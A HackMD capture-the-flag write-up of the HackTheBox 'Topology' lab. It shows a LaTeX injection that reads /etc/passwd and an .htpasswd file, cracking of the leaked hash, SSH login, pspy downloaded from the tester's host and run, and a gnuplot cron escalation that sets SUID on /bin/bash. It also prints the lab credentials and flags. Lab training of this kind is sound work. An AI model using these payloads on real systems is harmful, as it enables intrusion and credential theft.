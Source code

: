 ```yaml
---
title: 'HackTheBox: Topology'
disqus: hackmd
---
```


HackTheBox: Topology
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/machines/Topology

### Initial Enumeration

●Start Machine: 
![](https://hackmd.io/_uploads/HJ8NFx2z6.png)


## Solution

### 1. Attempt

#### 1.1 Edit /etc/hosts
/etc/hosts
> 10.10.11.217    topology.htb

#### 1.2 Browse http://topology.htb/
![](https://hackmd.io/_uploads/Hk9Uqx2Ga.png)

#### 1.3 nmap scan 
> nmap -sC -sV -T4 10.10.11.217

![](https://hackmd.io/_uploads/Hy2msl2GT.png)
#### 1.4 dirsearch scan
> dirsearch -u http://topology.htb/

![](https://hackmd.io/_uploads/rkvcZ-2fa.png)
> /.htpasswd_test
> /.htpasswds

#### 1.5 Subdomain latex.topology.htb 
![](https://hackmd.io/_uploads/BJQgA62f6.png)
Edit /etc/hosts
/etc/hosts
> 10.10.11.217    latex.topology.htb

![](https://hackmd.io/_uploads/rJ9vCanfp.png)

#### 1.6 Attempt LaTeX Equation Generator
Test:
> chwchw

![](https://hackmd.io/_uploads/BkTmJChGa.png)
> http://latex.topology.htb/equation.php?eqn=chwchw&submit=

![](https://hackmd.io/_uploads/HJU8JRnMp.png)

### 2. Command Injection
● [LaTex 基本介紹](https://albertyzp.github.io/2019/10/15/LaTex%E5%9F%BA%E7%A1%80%E6%89%8B%E5%86%8C/#%E4%B8%80-latex%E5%9F%BA%E6%9C%AC%E6%A6%82%E5%BF%B5)
● [LaTex listening source code](https://en.wikibooks.org/wiki/LaTeX/Source_Code_Listings)
●\lstinputlisting{} 是Command，不是數學符號，所以用$ $ 將內部原始碼$閉合。
![image.png](https://hackmd.io/_uploads/rylP77b76.png)

```
$\lstinputlisting{/etc/passwd}$
```
![](https://hackmd.io/_uploads/Sk9heCnMa.png)

```
@hewen
input 引用另一個 LaTeX 文檔；lstinputlisting 引用外部檔案
$\lstinputlisting{/etc/hosts}$
eqn=$\lstinputlisting{/etc/apache2/apache2.conf}$ #Apache server
```

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](https://hackmd.io/_uploads/rJEp-A2zp.png)
Get user/password
> vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
> user: vdaisley
> password: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
#### 2.1 [Password Formats:$ apr1 $](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html)

MD5
"$ apr1 $" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password. See the APR source file apr_md5.c for the details of the algorithm.

#### 2.2 John-the-Ripper tools 
Hash工具破解工具:MD5、SHA1、SHA256、MySQL 與NTLM 的雜湊
> sudo apt-get install john -y
> john --wordlist=rockyou.txt ./topology.txt

![](https://hackmd.io/_uploads/HyVyrlaMT.png)
> password(MD5 decrypt): calculus20

### 3. SSH Login
> ssh vdaisley@10.10.11.217
> ls -al

![](https://hackmd.io/_uploads/HkbbIlpMa.png)
> cat user.txt

![](https://hackmd.io/_uploads/H1E78eTMp.png)
### 4. GET USER FLAG
> **FLAG: 995aae620785c32d38235ff75eb0cc34**

### 5. Gnuplot
●Gunplot: 繪圖工具(產生plt file)
> ls -al /opt

![](https://hackmd.io/_uploads/B17DarCzT.png)

### 6. pspy Tools
●[pspy tools](https://www.freebuf.com/articles/web/254452.html): 不需root權限即可監聽。
●GitHub: [pspy-unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy?source=post_page-----1e4cf07d7805--------------------------------#pspy---unprivileged-linux-process-snooping) 
> wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
> chmod +x pspy64 //給執行權限
> ./pspy64

![image.png](https://hackmd.io/_uploads/SJyry51QT.png)
#### 6.1 SSH download pspy from local
>python3 -m http.server
vdaisley@topology:~$ wget 10.10.16.35:8000/pspy64

![image.png](https://hackmd.io/_uploads/H1fvkqymp.png)

![image.png](https://hackmd.io/_uploads/BJdwJ9ymT.png)
> vdaisley@topology:~$ ls
pspy64  user.txt
vdaisley@topology:~$ chmod +x pspy64 
vdaisley@topology:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     

#### 6.2 chmod new .plt file
● [Gnuplot Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/?source=post_page-----1e4cf07d7805--------------------------------)
● [chmod command](https://zh.wikipedia.org/zh-tw/Chmod)
> vdaisley@topology:~$ echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/chw.plt
vdaisley@topology:~$ cat /opt/gnuplot/chw.plt
system 'chmod u+s /bin/bash'
vdaisley@topology:~$ ls -al /opt/gnuplot/chw.plt
-rw-rw-r-- 1 vdaisley vdaisley 29 Nov  1 04:22 /opt/gnuplot/chw.plt

```
@hewen
執行這個檔案的時後以檔案擁有者身份執行，而不是以當前使用者的身份執行。
雖然執行時會出現 error，但檔案屬性還是改變了
/bin/bash -p
```

> vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# 

![image.png](https://hackmd.io/_uploads/r1lUnZcyQa.png)
> bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
![image.png](https://hackmd.io/_uploads/H1Baa9y76.png)
> bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt 

![image.png](https://hackmd.io/_uploads/B131z91mp.png)


### 7. GET ROOT FLAG
> **FLAG: 2cf94752042e7319560bf84534369988**

###### tags: `CTF` `Web` `nmap` `dirsearch` `Command Injection` `pspy` `John-the-Ripper` `MD5`
